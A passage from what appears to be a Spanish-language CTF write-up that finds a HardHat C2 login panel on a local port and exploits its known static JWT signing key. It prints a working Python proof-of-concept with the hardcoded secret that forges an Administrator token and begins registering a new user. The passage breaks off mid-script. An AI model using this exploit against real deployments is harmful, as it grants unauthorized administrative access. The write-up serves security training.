 Desde nuestro navegador, probaremos de acceder a https://127.0.0.1:7096 y nos encontramos con el panel de inicio de sesión de `HardHat C2`.

<figure><img src="../../../../.gitbook/assets/imagen (205).png" alt="" width="563"><figcaption></figcaption></figure>

Si investigamos sobre la página [https://127.0.0.1:5000](https://127.0.0.1:5000), no encontramos ningún tipo de información.

<figure><img src="../../../../.gitbook/assets/imagen (206).png" alt=""><figcaption></figcaption></figure>

### HardHatC2 AuthN Bypass

Al investigar vulnerabilidades en HardHatC2, encontramos información sobre varias fallas en este framework.

{% embed url="https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7" %}

Por defecto, HardHatC2 genera automáticamente una contraseña para la cuenta **HardHat\_Admin**, la cual se muestra solo una vez al inicio. Sin embargo, el sistema utiliza una **clave estática de firma JWT** almacenada en `appsettings.json`, que permite a los atacantes generar tokens JWT válidos sin necesidad de autenticación.

Con esta vulnerabilidad, se puede usar el JWT para forjar un token y crear usuarios administradores sin necesidad de autenticarse.

Basándonos en el acceso a los puertos y en el archivo `.txt` inicial, donde se mencionaba que el framework había sido instalado con configuración por defecto, decidimos probar esta vulnerabilidad

{% code title="Bypass.py" %}
```python
# @author Siam Thanat Hack Co., Ltd. (STH)
import jwt
import datetime
import uuid
import requests

rhost = '127.0.0.1:5000'

# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()

expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)

# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
```